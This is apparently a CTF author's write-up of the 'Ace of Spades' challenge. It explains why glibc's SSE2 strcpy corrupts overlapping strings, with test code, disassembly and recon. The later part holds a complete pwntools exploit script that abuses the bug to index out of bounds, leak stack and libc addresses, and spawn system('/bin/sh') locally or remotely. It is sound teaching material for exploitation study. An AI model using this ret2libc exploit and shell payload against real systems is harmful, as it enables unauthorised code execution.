

# Context

(Feel free to skip this section if you're not interested in the story of this challenge's inception.)

I used to be a Teaching Assistant at University, CS department, for around 5 years; I taught undergraduates the basics of x86 assembly through practical examples (side note: I highly recommend an undertaking such as this - paradoxically, you'll learn almost as much as you teach others or discover things you thought you knew but delve deeper in order to be able to explain them to someone else, and this is an example of that). One day, a student told me he was processing some strings in C using the standard library. He wanted to shift a string to the left, dropping off/overwriting the first character, for example:

*"#Necktie\n\0"* becomes *"Necktie\n\0"* and *"#Ace of Diamonds\n\0"* becomes *"Ace of Diamonds\n\0"* and so on. At least, that's the expected outcome for someone with programming experience in C and Python, but not so much in assembly.

The way he intended to do this was by using `strcpy` to shift the string in-place i.e. `strcpy(&string[0], &string[1]);`.

He noticed something peculiar happening: for some cases, the outcome is as expected, but for others it's a bit scrambled. *"#Necktie\n\0"* becomes *"Necktie\n\0"* but *"#Ace of Diamonds\n\0"* becomes *"Aceof Diaoonds\n\n\0"*. This puzzled him, so he decided to ask me if this behaviour is expected.

My instinct wanted to reply "why would you do that?", but being a condescending prick is not something I aspire to - plus, it would not have been helpful at all. The real answer I gave was "of course that's the expected behaviour! `strcpy` is optimized to move one block of bytes at a time. If the source and destination overlap, then `strcpy` will copy blocks which have been partially modified by previous iterations." I couldn't go into detail about SSE instructions, since the students were just getting acquainted to the base instruction set. He was somewhat satisfied by my half-baked answer, but I wasn't. While both my intuition and **man strcpy** told me

```
DESCRIPTION
       The  strcpy()  function copies (...). **The strings may not overlap**, and (...)
```

I had no solid reasoning for it.

## Black box analysis

In order to get a feel for how `strcpy` behaves with overlapped source and destination, I wrote some snippets of code:

```c
void do_xxd(char *b, int sz)
{
	int i = 0;
	for (i = 0; i < sz; i++) {
		printf("%02hhx ", b[i]);
	}
	printf("\n");
}

int main(int argc, char* argv[])
{
	char *s = NULL;
	int size = 0;
	int offset = 0;
	int i = 0;
	if (argc != 3) {
		return 0;
	}

	setbuf(stdout, NULL);
	size = atoi(argv[1]);
	offset = atoi(argv[2]);
	s = malloc(size);
	for (i = 1; i < size; i++) {
		s[i] = i;
	}
	s[size] = 0;
	strcpy(s, s+offset);
	do_xxd(s, size);
	free(s);
    s = NULL;

	return 0;
}
```

```python
import subprocess

class bcolors:
    RED ="\033[1;31m"
    ENDC = '\033[0m'

def hexcheck(out, valid):
    hex_out = ''
    hex_valid = ''
    for i in range(len(out)):
        if out[i] == valid[i]:
            hex_out += ('%02x ' % out[i])
            hex_valid += ('%02x ' % valid[i])
        else:
            hex_out += (bcolors.RED + ('%02x' % out[i]) + bcolors.ENDC + ' ')
            hex_valid += (bcolors.RED + ('%02x' % valid[i]) + bcolors.ENDC + ' ')
    print('Out: {}'.format(hex_out))
    print('Exp: {}'.format(hex_valid))


def check_output(out, size, offset):
    inp = list(range(size))
    inp.append(0)
    validation = inp[offset:] + inp[(size-offset+1):]
    validation = validation[:size]
    if validation != out:
        print('Size: {}, Offset: {}'.format(size, offset))
        hexcheck(out, validation)
        print('')

for size in range(2, 33):
    a = subprocess.Popen(['./test', str(size), str(1)], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    (out, err) = a.communicate()
    out = list(map(lambda x: int(x, 16), out.split()))
    check_output(out, size, 1)
```

And, lo and behold, the tip of iceberg revealed itself:

<pre>
$ ./test.py
Size: 13, Offset: 1
Out: 01 02 03 04 05 <font color='red'><b>07 08</b></font> 08 09 0a 0b 0c 00
Exp: 01 02 03 04 05 <font color='red'><b>06 07</b></font> 08 09 0a 0b 0c 00

Size: 14, Offset: 1
Out: 01 02 03 04 05 06 <font color='red'><b>08</b></font> 08 09 0a 0b 0c 0d 00
Exp: 01 02 03 04 05 06 <font color='red'><b>07</b></font> 08 09 0a 0b 0c 0d 00

Size: 17, Offset: 1
Out: 01 02 03 04 05 06 07 <font color='red'><b>09 0a 0b 0c 0d 0e 0f 10</b></font> 10 00
Exp: 01 02 03 04 05 06 07 <font color='red'><b>08 09 0a 0b 0c 0d 0e 0f</b></font> 10 00
</pre>

## Untangling SSE2
What's going on here?

Anyone who has done a fair bit of reverse engineering and worked with optimized and inlined functions should be able to tell me what the following snippet does in 3 seconds flat:



If your answer was along the lines of "optimized `strcpy` or `memcpy`", then you're right! Why does it look like this? The glibc implementation takes advantage of vectorized operations in order to copy 16 (or more) bytes at a time.

Why is this a problem? All `__strcpy_sse2` has to do is copy 16-byte blocks until reaching a block containing a `0x00` byte. Ideally, the sequence should be along the following lines:

```
src: "Ace of Diamonds\n\0"
dst: "#Ace of Diamonds\n\0"

strlen(src) == 16          // Fits in a xmm register
xmm0 <- src
dst  <- xmm0               // Now dst points to "Ace of Diamonds\n\n\0"
dst[0x10] = 0x00           // This isn't what really happens
```

The real issue is related to glibc's obsession with alignment. For example, if `src` is at `0xffffce4d` and `dst` at `0xffffce4c`, then the following sequence will produce an undesired effect (with respect to overlapping):

```
   0x806722b <__strcpy_sse2+171>:	lea    ebx,[ecx+0x10]    ; ebx -> 0xffffce4d+0x10 = 0xffffce5d ('\0', OK)
   0x806722e <__strcpy_sse2+174>:	and    ebx,0xfffffff0    ; ebx -> 0xffffce50 (" of Diamonds\n\0", not OK)
```

The next transfer will be from `0xffffce50` (`ecx`) (computed earlier) to `0xffffce4f` (`edx`) and the block will be smaller than 16 bytes.

```
   0x80675b0 <__strcpy_sse2+1072>:	movlpd xmm0,QWORD PTR [ecx]             ; moves "of Diamo" to xmm0
   0x80675b4 <__strcpy_sse2+1076>:	movlpd QWORD PTR [edx],xmm0             ; moves "of Diamo" over " of Diamonds\n\n" => "Aceof Diamoonds\n\n"
   0x80675b8 <__strcpy_sse2+1080>:	movlpd xmm0,QWORD PTR [ecx+0x6]         ; moves from "ecx+0x6", which now points to "oonds\n\n\0", to xmm0
   0x80675bd <__strcpy_sse2+1085>:	movlpd QWORD PTR [edx+0x6],xmm0         ; moves xmm0 over "edx+0x6", which points to moonds\n\n\0"
```

It uses `movlpd`, which only transfers 8 bytes. Graphically:

```
Step I
------------------------------
Ace of Diamonds\n\n\0 (dst)
   of Diamo           (src)
Aceof Diamoonds\n\n\0 (result)

Step II
------------------------------
Aceof Diamoonds\n\n\0 (dst)
         oonds\n\n\0  (src)
Aceof Diaoonds\n\n\0  (result)
```

And that's the gist of `strcpy`'s behaviour with overlapping strings.

## Turning Undefined Behaviour into a game

I wondered for some time if there was anything useful that could be done with this - some bytes disappearing, others getting duplicated - eventually turning it into a card game, which was wrapped around the initial proof-of-concept.

There were a few caveats along the way: the bug appeared only in various combinations of distro, libc version and architecture. On Ubuntu 16.04, it only worked on the 32bit libc; on Debian, it worked only on the 64bit libc and on some other distro it didn't work at all. The final build was set to be on Ubuntu as a 32bit ELF, which (to my mind) is slightly suspicious in the year 2019.

Next, I was out of ideas on how to disguise `strcpy(a, a+1)`, which (again, to my mind) is **highly** suspicious. I toyed with the notion of various indirect calls and buffer juggling to make the source and destination overlap less obvious, but ultimately dropped it to avoid adding potential unintended bugs.

During testing, both **Sin__** and **reginleif** found the bug and exploited it in a few hours. This, coupled with the **man** page reference and the thousands of results when searching *"strcpy overlap"* on Google, made me question whether this challenge was even worthy at all. I had no idea if the bug was well-known by competing CTF teams, given that it's been around for decades.

Lastly, I got the game idea by re-watching Bugs Bunny in *Mississippi Hare*, specifically when Bugs cheats out Colonel Shuffle of his entire heap of chips:
```
Colonel Shuffle, Aces in his eyes: "Ha ha ha! I've got five Aces! What've you got, sir?"
Bugs, untouched: "I've got *six* aces, sir."
```

This inspiration can also be seen in the flag, since the intended solution was to duplicate cards, mostly Aces.

# Solving Ace of Spades

## Recon
The challenge provides an intro with the rules of the game and a list of options:

```
🃟 Welcome to our custom playing card game! 🃟
The goal is to get a score as high as possible.
You get points by having a hand of high cards. The Ace of Spades 🂡 doubles your points!
Good luck!
1. Draw card.
2. Discard a card.
3. Play hand.
4. Show hand.
5. Fold.
6. Leave table.
Your choice: 
```

The goal of the game is to get a high score. Reversing the binary reveals how the score is computed: iterating over 5 cards starting from the leftmost one (index 0), it accumulates points based on card value, as follows:

```
#define JACK_POINTS 300
#define QUEEN_POINTS 600
#define KING_POINTS 900
#define ACE_POINTS 1200
```

Moreover, as the rules state, the Ace of Spades doubles the amount of points in the hand. The highest possible score is given by having all aces and a king: `(900+3*1200)*2 = 9000`. Or is it?

Each 1000 points gained unlocks a different prize bracket, computed as follows:

```
prize_index = points / 1000;
```

This index is used in an array of `char*` that's stored on the stack. If we examine this array before the function that evaluates the hand is called, we can see that at "index" 16 `ebp` is stored.

```
gdb-peda$ tele 0xffffcfb8 20
0000| 0xffffcfb8 --> 0x56558080 ("Nothing")
0004| 0xffffcfbc --> 0x565580a0 ("A pat on the back")
0008| 0xffffcfc0 --> 0x565580c0 ("A bag of chips")
0012| 0xffffcfc4 --> 0x565580e0 ("A beer")
0016| 0xffffcfc8 --> 0x56558100 ("A deck of playing cards")
0020| 0xffffcfcc --> 0x56558120 ("Phrack 1st ed. - printed")
0024| 0xffffcfd0 --> 0x56558140 ("Secret prize!")
0028| 0xffffcfd4 --> 0x56558160 ("100-hour chiptune playlist")
0032| 0xffffcfd8 --> 0x56558180 ("404 prize not found")
0036| 0xffffcfdc --> 0x565581a0 ("Prize over 9000")
0040| 0xffffcfe0 --> 0x565581c0 ("The prime factorizer version 2")
0044| 0xffffcfe4 --> 0x0 
0048| 0xffffcfe8 --> 0x0 
0052| 0xffffcfec --> 0x0 
0056| 0xffffcff0 ("1fUV\230\177UV\030\320\377\377>bUV9\005")
0060| 0xffffcff4 --> 0x56557f98 --> 0x2eb8 
0064| 0xffffcff8 --> 0xffffd018 --> 0xffffd028 --> 0x0 
```

Further down the line, at index 22, there's a libc address (offset from base: `0x18637`).

To sum up, if we could achieve a `prize_index` of 16 multiple times, we could do the following:
- Leak the stack (because the program calls `printf` on the "prize")
- Write 5 dwords on the stack in order to overwrite zeros; this allows us to have a continuous stream of bytes up to the libc address further down the stack
- Leak the libc address
- Write "/bin/sh" and `libc_system`
- Leave the table, which results in `system("/bin/sh")`.

## Exploit

Using the `strcpy` undefined behaviour described in the previous section, we can duplicate some cards while eliminating others. Here's the TL;DR version: if we have a hand size of 14 cards, when we `discard`, we get the effect of duplicating the card at index 8 while deleting the card at index 7.

```
Your choice: 4
******************************
Your hand is:
🂽 🂱 🃞 🃇 🂲 🃄 🂦 🂫 🃎 🂤 🃖 🃙 🃑 🂩 
******************************
1. Draw card.
2. Discard a card.
3. Play hand.
4. Show hand.
5. Fold.
6. Leave table.
Your choice: 2
1. Draw card.
2. Discard a card.
3. Play hand.
4. Show hand.
5. Fold.
6. Leave table.
Your choice: 4
******************************
Your hand is:
🂱 🃞 🃇 🂲 🃄 🂦 🃎 🃎 🂤 🃖 🃙 🃑 🂩 
******************************
```

Note the duplicated King of Diamonds (🃎) in this case.

A score of 16800 can be obtained by having a hand of the form `AKSSS` in any order, where A - Ace, K - King and S - Ace of Spades. If we duplicate the Ace of Spades, Kings and Aces a sufficient amount of times, we can greatly increase our odds of drawing such a hand, essentially creating a deck of Aces and Kings (and lots of Aces of Spades).

```python
#!/usr/bin/python
from pwn import *

def is_ip_or_hostname(s):
	if "." not in s:
		return False
	for i in s:
		if i  in [" ", "'" , '"' , ";", "/", "(", ")" ]:
			return False

	return True

def is_port(s):
	try:
		port = int(s)
		if port > 0 and port < 65536:
			return True
	except:
		return False

#USAGE:
#	./exploit.py  : test exploit locally
#	./exploit.py [HOSTNAME OR IP] [PORT]  : test exploit remotely

libc_system_offset = 0x3ada0

input_file = "ace_of_spades"
if len(sys.argv) > 1:
	host = None
	port = None
	for arg in sys.argv[1:]:
		if is_ip_or_hostname(arg) and not host:
			host = arg
		if is_port(arg) and not port:
			port = arg
	if host and port:
		io = remote(host, port)
	else:
		print("Args not understood")
		exit()

else:
	io = process(input_file)

def resp(question, answer, ack = None):
	ret1 = None
	ret2 = None
	if question != "" :
		ret1 = io.recvuntil(question)
	io.send(str(answer))
	if ack:
		ret2 = io.recvuntil(ack)
	return (ret1, ret2)

def check_leak(leak, offset):
	base = leak - offset
	if base % 0x1000 != 0:
		print "Leak %#x does not seem to match offset %#x" % (leak, offset)
	return base

#######################################################

ace_of_diamonds = '\xf0\x9f\x83\x81'
ace_of_spades = '\xf0\x9f\x82\xa1'
ace_of_clubs = '\xf0\x9f\x83\x91'
ace_of_hearts = '\xf0\x9f\x82\xb1'
king_of_diamonds = '\xf0\x9f\x83\x8e'
king_of_spades = '\xf0\x9f\x82\xae'
king_of_clubs = '\xf0\x9f\x83\x9e'
king_of_hearts = '\xf0\x9f\x82\xbe'
queen_of_diamonds = '\xf0\x9f\x83\x8d'
queen_of_spades = '\xf0\x9f\x82\xad'
queen_of_clubs = '\xf0\x9f\x83\x9d'
queen_of_hearts = '\xf0\x9f\x82\xbd'
jack_of_diamonds = '\xf0\x9f\x83\x8c'
jack_of_spades = '\xf0\x9f\x82\xac'
jack_of_clubs = '\xf0\x9f\x83\x9c'
jack_of_hearts = '\xf0\x9f\x82\xbc'
jacks = [jack_of_clubs, jack_of_diamonds, jack_of_hearts, jack_of_spades]
queens = [queen_of_clubs, queen_of_diamonds, queen_of_hearts, queen_of_spades]
kings = [king_of_diamonds, king_of_clubs, king_of_spades, king_of_hearts]
aces = [ace_of_clubs, ace_of_diamonds, ace_of_hearts]
vital_cards = [ace_of_diamonds, ace_of_spades, ace_of_clubs, ace_of_hearts, king_of_diamonds, king_of_spades, king_of_clubs, king_of_hearts]

def do_draw():
    resp('choice: ', '1')

def do_discard():
    resp('choice: ', '2')

def do_play(choice=1, contents=''):
    resp('choice: ', '3')
    io.recvuntil('points: ')
    points = int(io.recvuntil('\n'))
    io.recvuntil('prize: ')
    prize = io.recvuntil('\n')
    if points >= 1000:
        resp('Choose: ', str(choice))
        if choice == 2:
            io.send(contents)
        return prize
    return ''

def do_show():
    resp('choice: ', '4')
    io.recvuntil('hand is:\n')
    cards = io.recvuntil('\n')
    return cards[:-1]

def do_fold():
	resp('choice: ', '5')

def do_leave():
    resp('choice: ', '6')

def calc_hand(cards):
	points = 0
	mult = 0
	for card in cards:
		if card in jacks:
			points += 300
		elif card in queens:
			points += 600
		elif card in kings:
			points += 900
		elif card in aces:
			points += 1200
		elif card == ace_of_spades:
			mult += 1
	for _ in range(mult):
		points *= 2
	return points

'''
PLAN:
    - increase odds of AKSSS (16K points)
    - leak stack
    - write 5 dwords
    - leave table
ALGORITHM:
	- draw 14
	- if idx 0x8 is K, A or As, discard + shuffle
	- repeat until you have ~10 A, ~10 K, ~30 As
	- redraw under 8 and discard/draw until AKSSS is found in left side
'''

num_kings = 4
num_aces = 3
num_spades = 1

# STEP 1: duplicate cards
while True:
	for _ in range(14):
		do_draw()
	hand = do_show()
	cards = hand.split(' ')[:-1]
	if cards[8] == ace_of_spades and cards[7] not in vital_cards:
		if num_spades < 30:
			do_discard()
			num_spades += 1
            # A primitive progress bar
			print(num_spades)
	elif cards[8] in kings and cards[7] not in vital_cards:
		if num_kings < 10:
			do_discard()
			num_kings += 1
	elif cards[8] in aces and cards[7] not in vital_cards:
		if num_aces < 10:
			do_discard()
			num_aces += 1
	do_fold()
	if num_spades > 24 and num_kings > 8 and num_aces > 8:
		break

log.info("Done shuffling")

# STEP 2: stack leak and "gluing"
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

leak = do_play(2, 'A'*20)
stack_leak = u32(leak.strip()[:4])
log.info('stack_leak: 0x%08x' % stack_leak)

# STEP 3: libc leak
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

leak = do_play()
leak_offset = 0x18637
libc_leak = u32(leak.strip().split('A'*20)[1])
libc_base = check_leak(libc_leak, leak_offset)
log.info('libc_base: 0x%08x' % libc_base)

# STEP 4: system
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

system = libc_base + libc_system_offset
payload = p32(0xdeadbeef)  #
payload += p32(system)     # 
payload += p32(0xdeadbeef) #
payload += p32(stack_leak) #
payload += '/bin/sh\0'     # stack_leak
do_play(2, payload)

# Leave table (option 6), cat $PATH/flag
io.interactive()
```